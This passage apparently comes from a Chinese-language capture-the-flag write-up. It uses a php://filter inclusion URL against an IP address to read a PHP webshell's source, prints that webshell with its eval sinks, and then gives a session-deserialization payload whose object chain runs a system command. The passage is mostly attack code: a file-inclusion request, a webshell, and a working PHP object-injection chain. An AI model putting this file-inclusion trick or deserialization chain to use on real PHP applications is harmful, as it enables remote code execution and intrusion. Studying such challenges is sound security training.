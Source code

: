 ```php
?>
```

去包含原来的 webshell

```
http://43.143.7.127:28843/t00llll.php?include_=php://filter/read=convert.base64-encode/resource=Rea1web3he11.php
```

```php
<?php 
error_reporting(0);
ini_set('session.serialize_handler', 'php');
session_start();
echo "y0u_m4ybe_n3ed_s0me_t00llll_t0_u4_1t!"."<br>";

class webshell{
    public $caution;
    public $execution;

    function __construct(){
        $this -> caution = new caution();
    }

    function __destruct(){
        $this -> caution -> world_execute();
    }
    function exec(){
        @eval($execution);
    }
}
class caution{
    function world_execute(){
        echo "Webshell初&#%始*$%&^化,$))(&*(%#^**ERROR**#@$()"."<br>";
    }
}
class execution{
    public $cmd;
    function __construct(){
        $this -> cmd = 'echo "即将执行命令:".$cmd;';
    }
    function world_execute(){
        eval($this -> cmd);
    }
}
?>
```

很明显是 session 反序列化, payload 如下

```php
<?php
class webshell{
    public $caution;
}

class execution{
    public $cmd;
}

$b = new execution();
$b->cmd = 'system("ls -/");';

$a = new webshell();
$a->caution = $b;
```